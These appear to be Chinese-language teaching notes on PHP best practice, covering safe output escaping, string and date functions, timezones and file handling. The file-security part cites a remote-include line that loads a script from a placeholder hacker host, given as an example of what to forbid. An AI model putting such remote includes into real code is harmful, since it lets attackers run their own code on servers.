 # PHP Best Practice

## String

### 字符串连接

我有一个变量，需要与字符串一起输出，可以怎样写？

(现场写... 3min)

### 安全的输出(safety output)

我们经常会用到字符串输出。无论您是字符串输出到浏览器或数据库，你需要小心正确编码字符串。一些字符串数据具有特殊的意义和可能，采取最好的情况下，掩盖输出;在最坏的情况下，输出错误的字符串数据能引起安全漏洞


#### 解决

+ 输出一个url给a标签

+ 输出html

+ 你希望显示或者隐藏一些html

+ 你需要保留一些格式


#### rawurlencode and htmlentities

输出转义的url，输出html内容

#### remove html Tag

使用strip_tags 


### String search

PHP有字符串函数一个强大的集合功能str_replace函数，strpos和substr_replace有三个这样的例子，它们出现在第一个简单的，但我们可以用它们来完成复杂的任务。 str_replace函数替换另一个字符串的所有事件，strpos返回另一个字符串中第一次出现的位置，并substr_replace一个字符串的一部分内替换文本

## Time and Date

`time` 获取当前时间的时间戳

`mktime` 获取指定时间的时间戳


### date
获得最近的日期 `date`


熟记部分含义 https://www.sitepoint.com/premium/books/the-php-anthology-101-essential-tips-tricks-hacks-2nd-edition/online/ch04s02.html#table_placeholder-description


### timezone

`date_default_timezone_set` 设置所在时区 常用的时区：

+ Asia/Shanghai

+ America/New_York

+ America/Los_Angeles

+ Europe/Paris

### 如何获取具体某一天是本周星期几？

`strtotime` + `date`

### 如何获取一个月多少天 ？

`strtotime` + `date｀


TASK: 写个日历


## Files

关于安全性，确保文件权限
禁止远程引入文件eg：include 'http://www.hacker.com/bad_script.txt';

`allow_url_fopen` 设置off

### read a file

? 我们如何将一个代码文件打开并显示行数(类似谷歌浏览器查看源码)

+ file 

+ file_get_contents

+ readfile



### handle  files

fopen fread fwrite

对于大文件呢？

### modify local file 



## Forms, Tables, and Pretty URLs

### 快速构建表单











